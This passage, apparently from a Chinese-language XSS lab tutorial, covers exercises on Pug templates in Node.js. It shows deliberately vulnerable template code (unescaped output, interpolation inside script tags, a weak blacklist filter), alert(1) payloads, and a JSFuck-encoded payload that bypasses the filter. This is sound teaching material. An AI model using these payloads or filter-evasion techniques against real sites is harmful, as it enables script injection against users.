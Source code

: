 * 此模板将在 HTML 中进行转义，如下所示：
    * `<script>`
    * `<p>No results found for [escaped user input]</p>`
    * `</script>`
* 尝试输入 payload：
    * 1;alert(1);
* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

顺便说一句，下面是一个小小的改变，正确的方法是在插值周围添加引号：

* Pug 模板源代码
    * script.
    * var user3="#{name3}"

**练习4**

在这个例子中，我们有 [Pug 非转义代码](https://pugjs.org/language/code.html)，由 != 表示，因为没有转义，所以它很容易受到 XSS 的攻击。因此，在这种情况下，我们可以对输入字段使用简单的 `<script>alert(1)</script>` 样式攻击。

* Pug 模板源代码：
    * p != 'No results found for '+name4
* 尝试输入 payload：
    * `<script>alert(1)</script>`
* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

**练习5** 

假设我们得到一个使用转义字符串插值和某种类型的过滤的应用程序。在下面的练习中，我们在 NodeJS 服务器中执行规则最小的黑名单过滤脚本，删除“<”，“>”和“alert”等字符。但是，他们再次错误地将我们的转义字符串插值放在 script 标签中。如果我们可以在那里利用 JavaScript，我们就可以发现一个 XSS：

* 打开练习5
* Pug 模板源代码
    * name5 = req.query.name5.replace(/[;’"<>=]|alert/g,"") 
    * script.
        * var user3 = #{name5};
* 尝试输入 payload 
    * 你可以尝试 alert(1)，但由于过滤器不起作用。你也可以尝试像`<script>alert(1)</script>`这样的东西，但转义代码和过滤器会拦截我们。如果我们真的想获得能利用 alert(1)的 payload，我们该怎么办？
* 我们需要弄清楚如何绕过过滤器来插入原始 JavaScript。请记住，JavaScript 功能非常强大，并且具有许多功能。我们可以利用此功能来提供一些新颖的 payload。绕过这些过滤器的一种方法是使用新颖的 JavaScript 表示方法。这可以通过名为 http://www.jsfuck.com/ 的站点创建。如下所示，通过使用括号，括号，加号和感叹号，我们可以重新创建 alert(1)。
* JSF*ck Payload：
```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```
